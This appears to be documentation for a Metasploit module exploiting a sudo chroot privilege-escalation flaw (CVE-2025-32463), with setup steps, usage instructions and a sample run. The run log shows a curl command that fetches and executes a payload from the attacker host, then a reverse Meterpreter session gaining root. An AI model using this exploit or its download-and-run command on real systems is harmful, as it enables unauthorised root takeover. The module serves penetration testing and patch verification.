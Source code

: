 ## Vulnerable Application


Sudo before version 1.19.17p1 allows user to use `chroot` option, when executing command. The option is intended to run a command with user-selected root directory (if sudoers file allow it). Change in version 1.9.14 allows resolving paths via `chroot` using user-specified root directory when sudoers is still evaluating. This allows the attacker to trick Sudo into loading arbitrary shared object. As target shared object, Name Service Switch (NSS) operations are trigged before resolving sudoers, but after running `chroot` syscall. The module requires existing session and requires compiler on target machine (e.g. `gcc`). 

Installation of vulnerable sudo:

```
wget https://www.sudo.ws/dist/sudo-1.9.16p2.tar.gz && \
    tar xzf sudo-1.9.16p2.tar.gz && \
    cd sudo-1.9.16p2 && \
    ./configure --disable-gcrypt --prefix=/usr && make && make install
```

## Verification Steps


1. Start msfconsole
2. Get existing session to low-privileged user
3. Do: `use linux/local/sudo_chroot_cve_2025_32463`
4. Set target payload
5. Do: `set lhost [attacker IP address]`
6. Do: `set lport [attacker port]`
7. Do: `run`

## Options

### COMPILE

Option setting if compile target payload on the target.

### COMPILER

Option setting the compiler to compile target payload.


## Scenarios

```
msf6 exploit(linux/local/sudo_chroot_cve_2025_32463) > run verbose=true 
[*] Command to run on remote host: curl -so ./YoGpAgWbO http://192.168.168.128:8080/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./YoGpAgWbO;./YoGpAgWbO&
[*] Fetch handler listening on 192.168.168.128:8080
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Running version 1.9.16.2
[*] Writing '/tmp/Xw1XwkTPC' (117 bytes) ...
[*] Max line length is 65537
[*] Writing 117 bytes in 1 chunks of 420 bytes (octal-encoded), using printf
[*] Creating directory /tmp/ugJjJFSc9q
[*] /tmp/ugJjJFSc9q created
[*] Max line length is 65537
[*] Writing 216 bytes in 1 chunks of 763 bytes (octal-encoded), using printf
[*] Client 192.168.168.140 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.140 (curl/8.14.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Launching exploit...
[*] Sending stage (3090404 bytes) to 192.168.168.140
[+] Deleted /tmp/Xw1XwkTPC
[+] Deleted /tmp/ugJjJFSc9q
[*] Meterpreter session 10 opened (192.168.168.128:4444 -> 192.168.168.140:41672) at 2025-07-10 16:12:58 +0200

meterpreter > sysinfo 
Computer     : kali.kali
OS           : Debian  (Linux 6.12.25-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```
